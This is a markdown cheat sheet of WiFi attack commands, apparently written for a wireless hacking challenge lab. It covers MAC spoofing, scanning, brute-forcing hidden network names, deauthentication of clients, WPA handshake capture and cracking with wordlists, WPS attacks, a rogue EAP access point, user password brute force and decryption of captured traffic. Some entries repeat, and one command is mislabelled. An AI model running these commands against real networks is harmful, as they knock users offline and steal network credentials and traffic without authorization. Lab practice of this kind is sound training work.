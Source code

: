 # Table of contents

- [Enumeration](#enumeration)
- [Services](#services)

## Setup

change mac address
```bash
ip link set wlan0 down
macchanger –m [mac_to_set] wlan0
ip link set wlan0 up
```

setup wifi_db and run it
```bash
python3 wifi_db.py -d wifichallenge.db /home/user/wifi
sqlitebrowser wifichallenge.db
```

Connect to OPN (open) network
```
wpa_supplicant -Dnl80211 -iwlan0 -c opn.conf
dhclient wlan0 -v
```

## Enumeration

start monitor mode
```bash
airodump-ng start wlan0
```

scan all
```bash
airodump-ng wlan0 -b abg --wps
```

scan 5GHz network
```bash
airodump-ng wlan0 -b a
```

scan specific BBSID and write traffic to pcap
```bash
airodump-ng wlan0 -c [channel_id] --bssid [bssid] -w accesspoint.pcap
```

bruteforce to get hidden essid
```bash
airmon-ng start wlan0 1
mdk4 wlan0mon p -t [bssid] -f ~/rockyou.txt
```

find other clients in the same network
```bash
arp-scan -l -I wlan0
```


## WEP based deauth attack


Get hidden wifi
```bash
besside-ng -c [channel_id] -b [bssid] wlan1 -v
iwconfig wlan0mon channel 1 ### network is hidden, requires to probe it with correct ESSID
mdk4 wlan0mon p -t [bssid] -f ~/rockyou.txt
```

## WPA based deauth attack

airodump-ng wlan0mon -w wifi -c 1 --wps
aireplay-ng -0 0 -a [bssid] wlan0mon
aireplay-ng -0 0 -a [bssid] -c [client_mac] wlan0mon
aircrack-ng wifi-01.cap -w /path/to/rockyou.txt

sudo airodump-ng wlan0mon
sudo airodump-ng -c 3 -w wpa --essid [essid] --bssid [bssid] wlan0mon
sudo aireplay-ng -0 1 -a [bssid] -c [client_mac] wlan0mon
aircrack-ng -w /usr/share/john/password.lst -e [essid] -b [bssid] wpa-01.cap


## WPS

reaver -i wlan0 -b [bssid]

## EAP

Discover EAP supported by network
```bash
EAP_buster.sh [essid] [domain\username] [interface]
```

Discover EAP supported by network
```bash
EAP_buster.sh [essid] [domain\username] [interface]
```

alternative
hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
After starting the RogueAP we disconnect the client
aireplay-ng -0 0 -a F0:9F:C2:71:22:55 wlan0mon -c 10:f9:6f:07:6c:00

bruteforce users from the given file (domain\username list)
air-hammer.py -i wlan0 -e [essid] -p ~/rockyou.txt -u [users_file]


## Post-exploitation

airdecap-ng -e [essid] -p [password] wifi-wpa-01.cap